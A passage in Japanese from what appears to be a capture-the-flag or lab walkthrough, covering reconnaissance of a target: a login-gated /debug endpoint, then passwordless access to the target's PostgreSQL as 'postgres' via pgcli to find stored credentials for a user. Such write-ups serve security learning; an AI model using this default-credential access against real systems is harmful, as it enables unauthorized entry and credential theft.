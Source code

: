 そして、`/debug`というファイルを閲覧できそうな面白いエンドポイントも存在します。この `/debug` というエンドポイントを実行したいですが、これもログインをしないと実行できないようです。なので、ログインできるクレデンシャルを探します。

![](./images/recon3.png)

それでは、他のサービスからクレデンシャルを探します。pgcli コマンドを使って postgres に デフォルトユーザ `postgres`、パスワードなしでアクセスを試みると、コネクションが確立されデータベース `center` も閲覧できることがわかります。  
ここからさらに `users` テーブルを確認すると、`azami` というユーザのクレデンシャルが保存されていることがわかりました。

```shell=
$ pgcli -h <target_ip> -U postgres
/usr/lib/python3/dist-packages/pgspecial/main.py:241: SyntaxWarning: invalid escape sequence '\w'
  caller (e.g. \watch).
Server: PostgreSQL 17.5 (Ubuntu 17.5-1.pgdg24.04+1)
Version: 3.5.0
Home: http://pgcli.com
postgres@10:postgres> \l
+-----------+----------+----------+-------------+-------------+-----------------------+
| Name      | Owner    | Encoding | Collate     | Ctype       | Access privileges     |
|-----------+----------+----------+-------------+-------------+-----------------------|
| center    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | <null>                |
| postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | <null>                |
| template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres           |
|           |          |          |             |             | postgres=CTc/postgres |
| template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres           |
|           |          |          |             |             | postgres=CTc/postgres |
```